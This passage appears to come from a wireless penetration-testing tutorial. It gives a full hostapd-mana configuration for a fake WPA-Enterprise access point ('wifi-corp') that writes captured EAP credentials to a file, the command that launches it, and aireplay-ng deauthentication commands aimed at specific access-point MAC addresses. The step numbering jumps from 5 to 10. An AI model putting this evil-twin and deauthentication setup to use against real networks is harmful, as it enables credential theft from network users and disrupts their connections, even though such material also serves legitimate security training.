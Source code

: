 4. After that we create a fake access point by creating a file called `network.conf` under any other directory

```
nano network.conf

ssid=wifi-corp
interface=wlan1
driver=nl80211

channel=44
hw_mode=a
ieee8021x=1
eap_server=1
eapol_key_index_workaround=0

eap_user_file=/root/mana.eap_user

ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key

private_key_passwd=whatever

dh_file=/etc/freeradius/3.0/certs/dh


auth_algs=1
wpa=3
wpa_key_mgmt=WPA-EAP


wpa_pairwise=CCMP TKIP
mana_wpe=1
mana_credout=/root/hostapd.credoutfile
mana_eapsuccess=1
mana_eaptls=1
```

5. **If using an interface in monitor mode, turn the interface to managed mode again**. Then use the following command to create fake `AP`

```
sudo hostapd-mana network.conf
```

10. Perform De-authentication attack (kick a specific client from the network to get the handshake), Using another interface:

```
sudo iw dev wlan0mon set channel 44
sudo aireplay-ng -0 4 -a F0:9F:C2:71:22:15 -c <client> wlan0mon
sudo aireplay-ng -0 4 -a F0:9F:C2:71:22:1A wlan0mon
```
